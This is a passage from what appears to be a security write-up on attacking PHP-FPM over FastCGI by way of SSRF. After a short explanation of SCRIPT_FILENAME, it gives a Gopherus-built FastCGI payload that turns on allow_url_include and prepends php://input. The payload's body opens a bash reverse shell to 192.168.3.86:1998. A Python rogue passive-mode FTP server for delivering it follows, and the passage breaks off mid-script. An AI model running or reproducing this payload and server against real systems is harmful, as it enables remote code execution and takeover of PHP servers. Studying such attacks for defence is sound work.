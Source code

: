 > This array is actually part of the `$_SERVER` array in PHP, which is the environment variable in PHP. However, the function of the environment variable is not only to fill the `$_SERVER` array, but also to tell fpm which PHP file to execute. PHP-FPM parses after getting the fastcgi data packet to obtain the above environment variables. Then execute `SCRIPT_FILENAME` value points to the PHP file, that is `/var/www/html/index.php`

# Attack Method
> First use `Gopherus` to construct the Payload and remove the characters after _ in the payload

<img src="./images/4.png" alt="">

> Then play ftp passively

```python
import socket
from urllib.parse import unquote
​
# Make a urldecode the payload generated by gopherus
payload = unquote("%01%01%00%01%00%08%00%00%01%00%00%00%00%00%01%04%00%01%01%15%05%00%0F%10SERVER_SOFTWAREgo%20/%20fcgiclient%20%0B%09REMOTE_ADDR127.0.0.1%0F%08SERVER_ PROTOCOLHTTP/1.1%0E%03CONTENT_LENGTH104%0E%04REQUEST_METHODPOST%09KPHP_VALUEallow_url_include%20%3D%20On%0Adisable_functions%20%3D%20%0Aauto_prepend_file%20%3D%20p hp%3A//input%0F%27SCRIPT_FILENAME/www/wwwroot/127.0.0.1/public/index.php%0D%01DOCUMENT_ROOT/%00%00%00%00%00%01%04%00%01%00%00%00%00%01%05%00%01%01%00h%04%00%3C%3Fphp% 20system%28%27bash%20-c%20%22bash%20-i%20%3E%26%20/dev/tcp/192.168.3.86/1998%200%3E%261%22%27%29%3Bdie%28%27----Made-by-SpyD3r---%0A%27%29%3B%3F%3E%00%00%00%00%00")
payload = payload.encode('utf-8')
​
host = '0.0.0.0'
port = 23
sk = socket.socket()
sk.bind((host, port))
sk.listen(5)
​
# Passvie port in ftp passive mode, listen to 1234
sk2 = socket.socket()
sk2.bind((host, 1234))
sk2.listen()
​
# Counter, used to distinguish the number of times the ftp connection is
count = 1
While 1:
    conn, address = sk.accept()
    conn.send(b"200 \n")
    print(conn.recv(20)) # USER aaa\r\n The username is sent to the client
    if count == 1:
        conn.send(b"220 ready\n")
    else:
        conn.send(b"200 ready\n")
​
    print(conn.recv(20)) # TYPE I\r\n The client tells the server what format to transfer data. TYPE I represents binary and TYPE A represents text
    if count == 1:
        conn.send(b"215 \n")
    else:
        conn.send(b"200 \n")
​
    print(conn.recv(20)) # SIZE /123\r\n Client asks for the size of file /123
    if count == 1:
        conn.send(b"213 3 \n")
    else:
        conn.send(b"300 \n")
​
    print(conn.recv(20)) # EPSV\r\n'
```